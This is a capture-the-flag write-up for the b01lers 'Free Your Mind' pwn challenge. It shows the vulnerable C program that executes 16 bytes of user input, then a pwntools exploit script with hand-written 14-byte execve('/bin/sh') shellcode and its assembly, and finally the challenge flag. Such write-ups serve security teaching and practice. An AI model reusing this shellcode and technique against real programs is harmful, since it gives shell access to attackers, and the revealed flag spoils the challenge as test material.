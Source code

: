 ## b01lers bootcamp: Free Your Mind [pwn]
![](freemind_description.png)

#### Source code:
```c
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
```

#### Basically a shellcoding challenge but with a catch - we can only provide a 16-byte shellcode. Since there already is a /bin/sh string in memory, it makes it easier; we only need to find where it is in memory during runtime (playing around with gdb shows it will be at rbp-0x10). We can then continue writing an execve shellcode to get the flag.

```python
from pwn import *

#: 
#p = process('./shellcoding')
p = remote('chal.ctf.b01lers.com', 1007)
#gdb.attach(p.pid, 'break *main + 147')
print(p.recv())

#: execve('/bin/sh', 0x0, 0x0)
'''
	lea rdi, [rbp-0x10]
	xor rsi, rsi
	xor rdx, rdx
	mov al, 59
	syscall
'''
shellcode = "\x48\x8D\x7D\xF0\x48\x31\xF6\x48\x31\xD2\xB0\x3B\x0F\x05"
print('[*] Shellcode length: {}'.format(len(shellcode)))
p.sendline(shellcode)
p.interactive()

#: flag{cust0m_sh3llc0d1ng_c4n_b33_c00l}
```